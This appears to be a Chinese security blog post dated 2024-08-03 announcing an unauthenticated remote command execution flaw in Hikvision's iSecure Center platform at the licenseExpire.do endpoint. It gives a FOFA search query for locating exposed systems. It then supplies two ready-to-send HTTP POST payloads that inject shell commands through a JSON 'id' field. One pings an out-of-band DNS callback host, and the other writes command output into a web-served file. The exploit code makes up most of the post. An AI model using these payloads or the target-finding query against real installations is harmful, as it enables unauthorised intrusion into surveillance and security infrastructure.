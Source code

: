 #  [企业安全运维] 海康威视现新0day 可未授权致RCE 速查！   
 合规渗透   2024-08-03 14:37  
  
**H14-11海康威视-iSecure Center综合安防管理平台-RCE**  
  
**漏洞描述：**  
  
海康威视综合安防管理平台  
/portal/cas/login/ajax/licenseExpire.do 存在远程命令执行漏洞，未经身份验证的远程攻击者可通过该漏洞在服务器端任意执行代码。  
  
**fofa语法：**  
  
app="HIKVISION-综合安防管理平台  
"  
  
**漏洞复现：**  
```
payload：
POST
/portal/cas/login/ajax/licenseExpire.do HTTP/1.1
Host:
Content-Type:
application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0;
Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116
Safari/537.36
{"type":"environment","operate":"","machines":{"id":"$(ping+qsdiehtuxn.dgrh3.cn)"}Copy
to clipboardErrorCopied
文件路径 /vms/static/1.txt payload：
POST
/portal/cas/login/ajax/licenseExpire.do HTTP/1.1
Host:
Cache-Control: max-age=0
Accept: application/json, text/javascript,
*/*; q=0.01
X-Requested-With: XMLHttpRequest
If-Modified-Since: Thu, 01 Jun 1970
00:00:00 GMT
User-Agent: Mozilla/5.0 (Windows NT 10.0;
Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0
Safari/537.36
Content-Type:
application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie:
JSESSIONID=jp9u6tFmSc3fk7Jzf9DQjK25abfBb_b4Yy1r4rax; curtTabId=all; configMenu=
Connection: close
Content-Length: 135
{"type":"environment","operate":"","machines":{"id":"$(id
>
/opt/hikvision/web/components/tomcat85linux64.1/webapps/vms/static/1.txt)"}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/vZZfNxKcwj7cUPSdMiauFRP3icQZyeuqEfkNeFuu7KVPic4pcmPUyTFpYZhexX3gYd4aWicMbqesPveTApxRB4fYZA/640?wx_fmt=png&from=appmsg "")  
  
  
